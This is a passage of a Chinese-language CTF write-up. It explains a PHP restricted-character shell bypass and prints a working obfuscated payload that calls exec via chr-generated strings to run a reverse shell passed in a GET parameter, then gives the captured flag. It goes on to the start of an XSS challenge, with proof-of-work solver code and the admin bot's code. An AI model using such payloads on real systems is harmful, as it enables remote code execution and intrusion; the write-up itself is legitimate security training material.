 ```php
        highlight_file(__FILE__);
    }
}
?>
```

此时就相当于构造一个字母和部分数字的限定长度的 shell，先用 check 参数看一眼 disable_functions。发现 chr 函数和 exec 函数仍然在，因此只需要利用 exec 去进行 RCE，chr 进行被禁用的字符生成即可。构造出如下载荷。

```php
$_=C,$C=((1/0).C)[2],$C++,$C++,$_.=$C,$_.=([].C)[2],$C=$_(70-1),($C.$_(120).$C.C)(${_.$_(71).$C.$_(84)}[_]);
```

载荷将执行 GET 参数 _ 的值，因此将反弹 shell 放在 GET 参数 _ 中，再将载荷以 POST 参数 VietNam 提交即可达成目的。在 shell 中读取 /home/fl4g_h1hih1i_xxx.txt 即可得 flag。


```flag
BSNoida{w0w_gr3at_Th4nk_y0u_f0r_j0in1ng_CTF_!!!!!!}
```

#### Fancy Button Generator

> Check out this cool new fancy button generator! The buttons even glow!

将给出的附件源码下载，可以很明显看出这是一个 XSS 的题目，同时使用了一个工作量证明（Proof Of Work）的验证机制。

> Proof of work: https://en.wikipedia.org/wiki/Proof_of_work

题目的附件中给出了其计算方法。

```python
def generate():
    return uuid.uuid4().hex[:4], uuid.uuid4().hex[:4]


def verify(prefix, suffix, answer, difficulty=6):
    hash = hashlib.sha256(prefix.encode() + answer.encode() + suffix.encode()).hexdigest()
    return hash.endswith("0" * difficulty)


def solve(prefix, suffix, difficulty):
    while True:
        test = binascii.hexlify(os.urandom(4)).decode()
        if verify(prefix, suffix, test, difficulty):
            return test
```

因此只需要先请求获得前缀和后缀，Solve 完成之后提交数据即可获得一次发送按钮的权力。再来看 admin 是如何操作按钮的，在给出的附件中有如下代码。

```javascript
await page.evaluate(flag => {
        localStorage.flag = flag;
    }, process.env.FLAG);

    let url = process.env.SITE + "button?title=" + req.title + "&link=" + req.link;
    console.log("Going to ", url);
    await page.goto(url, {
        waitUntil: "networkidle2"
    });
    await page.click("#btn");
    await page.waitForTimeout(TIMEOUT);
    await page.close();
    page = null;
```
